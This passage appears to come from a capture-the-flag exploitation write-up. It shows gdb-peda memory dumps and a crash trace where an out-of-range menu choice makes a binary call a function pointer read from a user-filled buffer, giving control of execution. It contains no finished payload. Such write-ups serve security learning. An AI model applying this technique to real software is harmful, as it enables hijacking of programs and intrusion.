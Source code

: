 ```  
gdb-peda$ x/40wx parsers
0x601080 <parsers>:             0x0040073d  0x00000000  0x004009b4  0x00000000
0x601090 <parsers+16>:          0x00400761  0x00000000  0x004009c3  0x00000000
0x6010a0 <parsers+32>:          0x00400785  0x00000000  0x004009d2  0x00000000
0x6010b0:                       0x00000000  0x00000000  0x00000000  0x00000000
0x6010c0 <stdout@@GLIBC_2.2.5>: 0xf7dd77a0  0x00007fff  0xf7dd76c0  0x00007fff
0x6010d0 <completed.6972>:      0x00000000  0x00000000  0x00000000  0x00000000
0x6010e0 <buf>:                 0x00000000  0x00000000  0x00000000  0x00000000
0x6010f0 <buf+16>:              0x00000000  0x00000000  0x00000000  0x00000000
0x601100 <buf+32>:              0x00000000  0x00000000  0x00000000  0x00000000
0x601110 <buf+48>:              0x00000000  0x00000000  0x00000000  0x00000000
```

If we somehow load `buf` with pointers to code we want to execute, then pass in a large value at the prompt, the code will fetch the parser address from the `buf` section and we have control over execution:

```bash
gdb-peda$ r
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
7   # give bigger number!

Please enter your number: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x6161616161616161 ('aaaaaaaa')
RBX: 0x0 
RCX: 0xfbad2288 
RDX: 0x6010e0 ('a' <repeats 52 times>, "\n")
RSI: 0x7ffff7ff7035 --> 0x0 
RDI: 0x6010e0 ('a' <repeats 52 times>, "\n")
RBP: 0x7fffffffe4b0 --> 0x0 
RSP: 0x7fffffffe4a0 --> 0x7ffffe590 
...snip...
[-------------------------------------code-------------------------------------]
   0x4008b3 <main+167>: add    rax,0x601080
   0x4008b9 <main+173>: mov    rax,QWORD PTR [rax]
   0x4008bc <main+176>: mov    edi,0x6010e0
=> 0x4008c1 <main+181>: call   rax
   0x4008c3 <main+183>: mov    QWORD PTR [rbp-0x8],rax
   0x4008c7 <main+187>: mov    rax,QWORD PTR [rbp-0x8]
   0x4008cb <main+191>: mov    rsi,rax
   0x4008ce <main+194>: mov    edi,0x400a3d
Guessed arguments:
arg[0]: 0x6010e0 ('a' <repeats 52 times>, "\n")
..snip...
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004008c1 in main ()
```
